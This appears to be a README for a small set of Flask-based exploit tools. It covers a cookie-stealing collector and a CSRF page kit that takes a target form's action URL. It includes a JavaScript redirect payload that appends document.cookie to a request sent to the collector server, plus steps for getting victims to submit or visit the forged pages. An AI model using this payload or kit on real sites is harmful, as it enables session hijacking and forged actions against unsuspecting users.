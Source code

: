 # Tools for exploits

## To get cookie (Flask)

1. Run
```commandline
python main.py
```

2. Make redirect this way
```html
document.location="http:127.0.0.1:8004?cookie=" + document.cookie
```

3. See result in the terminal

## To use csrf (Flask)

1. Run
```commandline
python main.py
```

2. Copy target form and action url and input in index.html or other.html

3. User need to fill form (index.html) or visit address (other.html)
